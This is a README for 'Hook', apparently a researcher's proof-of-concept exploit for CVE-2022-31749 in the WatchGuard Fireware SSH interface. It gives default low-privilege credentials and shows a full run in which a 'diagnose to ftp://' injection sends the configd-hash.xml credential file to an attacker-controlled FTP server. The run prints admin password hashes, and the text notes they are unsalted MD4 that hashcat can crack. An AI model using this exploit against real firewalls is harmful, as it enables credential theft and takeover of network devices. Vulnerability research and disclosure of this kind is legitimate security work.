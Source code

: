 # Hook

Hook exploits a parameter injection vulnerability in the WatchGuard SSH interface. The vulnerability allows a low privileged user to exfiltrate arbitrary system files to an attacker controlled FTP server. Fortunately, there is a builtin low privileged user named `status` that this script defaults to. It isn't unreasonable to assume that the `status` user will use a password of `readonly`, but it isn't required.

Hook exfiltrates the user file `configd-hash.xml`. This file contains hashed user passwords. The hashes are simply unsalted MD4. [@funoverip](https://twitter.com/funoverip) [described](https://web.archive.org/web/20160522043540/http://funoverip.net/2013/09/cracking-watchguard-passwords/) using hashcat to crack the hashes in this file all the way back in 2013.

## Example Usage

```
albinolobster@ubuntu:~/hook$ python3 hook.py --lhost 10.12.70.251 --rhost 10.12.70.249
   0101010001101000 0110010100100000 0110100001101111
   0110111101101011 0010000001100010 0111001001101001
    ,ggg,        gg                                     
   dP""Y8b       88                           ,dPYb,    
   Yb, `88       88                           IP'`Yb    
    `"  88       88                           I8  8I   
        88aaaaaaa88                           I8  8bgg, 
        88"""""""88    ,ggggg,     ,ggggg,    I8 dP" "8 
        88       88   dP"  "Y8ggg dP"  "Y8ggg I8d8bggP" 
        88       88  i8'    ,8I  i8'    ,8I   I8P' "Yb, 
        88       Y8,,d8,   ,d8' ,d8,   ,d8'  ,d8    `Yb,
        88       `Y8P"Y8888P"   P"Y8888P"    88P      Y8
   0110111001100111 0111001100100000 0111100101101111
   0111010100100000 0110001001100001 0110001101101011

                       jbaines-r7                    
                     CVE-2022-31749                  
                           🦞                        

[+] Spinning up FTP server thread
[I 2022-06-16 12:58:39] concurrency model: async
[I 2022-06-16 12:58:39] masquerade (NAT) address: None
[I 2022-06-16 12:58:39] passive ports: None
[I 2022-06-16 12:58:39] >>> starting FTP server on 10.12.70.251:1270, pid=19473 <<<
diagnose to ftp://r7:1270/r7
--
-- WatchGuard Fireware OS Version 12.1.3.B658867
-- Support: https://www.watchguard.com/support/supportLogin.asp
-- Copyright (C) 1996-2022 WatchGuard Technologies Inc.
--
WG>diagnose to ftp://r7:1270/r7
Name: 
albinolobster
Password: 
[I 2022-06-16 12:58:46] 10.12.70.249:52588-[] FTP session opened (connect)
[I 2022-06-16 12:58:46] 10.12.70.249:52588-[albinolobster] USER 'albinolobster' logged in.
[I 2022-06-16 12:58:46] 10.12.70.249:52588-[albinolobster] STOR /home/albinolobster/hook/configd-hash.xml completed=1 bytes=249 seconds=0.001
[I 2022-06-16 12:58:46] 10.12.70.249:52588-[albinolobster] FTP session closed (disconnect).

WG>
[!] Done
albinolobster@ubuntu:~/hook$ file configd-hash.xml 
configd-hash.xml: gzip compressed data, max speed, from Unix, original size modulo 2^32 587
albinolobster@ubuntu:~/hook$ mv configd-hash.xml configd-hash.xml.gz
albinolobster@ubuntu:~/hook$ gunzip configd-hash.xml.gz 
albinolobster@ubuntu:~/hook$ cat configd-hash.xml 
<?xml version="1.0"?>
<users>
  <version>3</version>
  <user name="admin">
    <enabled>1</enabled>
    <hash>628427e87df42adc7e75d2dd5c14b170</hash>
    <domain>Firebox-DB</domain>
    <role>Device Administrator</role>
  </user>
  <user name="status">
    <enabled>1</enabled>
    <hash>dddbcb37e837fea2d4c321ca8105ec48</hash>
    <domain>Firebox-DB</domain>
    <role>Device Monitor</role>
  </user>
  <user name="wg-support">
    <enabled>0</enabled>
    <hash>dddbcb37e837fea2d4c321ca8105ec48</hash>
    <domain>Firebox-DB</domain>
    <role>Device Monitor</role>
  </user>
</users>
albinolobster@ubuntu:~/hook$ 
```

## Credit

* [Blues Traveler](https://www.youtube.com/watch?v=pdz5kCaCRFM)
